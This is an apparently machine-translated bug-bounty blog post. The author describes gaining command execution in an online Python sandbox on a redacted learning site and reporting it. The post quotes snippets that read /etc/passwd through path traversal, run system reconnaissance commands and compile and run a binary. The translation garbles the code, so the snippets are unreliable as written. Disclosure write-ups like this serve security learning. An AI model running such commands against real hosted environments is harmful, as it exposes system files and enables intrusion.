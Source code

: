 # 我是如何在学习 PYTHON 时得到我的第一个 RCE 的

> 原文：<https://infosecwriteups.com/how-i-got-my-first-rce-while-learning-python-75f51563309c?source=collection_archive---------2----------------------->

嗨，

我刚刚在 redacted.com 学习 python，而且学了又学…

直到我发现了一个允许我们在网上运行 python 代码并允许我们修改文件的部分，然后我尝试运行 pip，一切都正常工作，我只是想如果我尝试运行一些命令会怎么样？通过操作系统模块？

我尝试了以下代码:

导入 os
os.system('cd ~ ')

a =打开(“../../../../etc/passwd "，" rt ")

打印(a.read())

它的输出是亮着的🔥：

![](img/39decc21dcdfb33c00185c47bbb745dd.png)

我就想这是怎么回事:

还有什么？我已经在一分钟内报告了它，该公司也实施了修复，修复他们禁止了一些命令😂，但我仍然能够运行一些命令，如:

打印(操作系统(' ps '))

打印(操作系统(' kill -h '))

OS . system(' cat/proc/version ')
OS . system(' cat/proc/partitions ')
OS . system(' cat/proc/SCSI/SCSI ')
OS . system(' cat/proc/meminfo ')

print(OS . system(' ifconfig-a '))
print(OS . system(' IP link show ')
print(OS . system(' netstat '))

我还能够编译 c 和 c++文件，并像这样运行它们:

f = open("anon.cpp "，" w ")
f . write(" # include<iostream>\ n ")
f . write("使用命名空间 std\ n ")
f . write(" int main(){ \ n ")
f . write(" cout<<\ " Hello World \ "；\ n ")
f . write(" return 0；\ n } "
f . close()
OS . system(' g++ anon . CPP-o a ')
OS . system(')。/a’)

可能它会以某种方式导致 RCE，我不确定，但报道了它，他们只是在短短 2 天内修复它..该死的。最后一个网站管理员说:谢谢你的报告，hhahahah🥲

请继续关注更多报道。很快会出版许多。

感谢阅读，请忽略任何错误和我的语法😅，你们可以在 twitter 上关注我: [@__sam0_0](https://twitter.com/__Sam0_0)
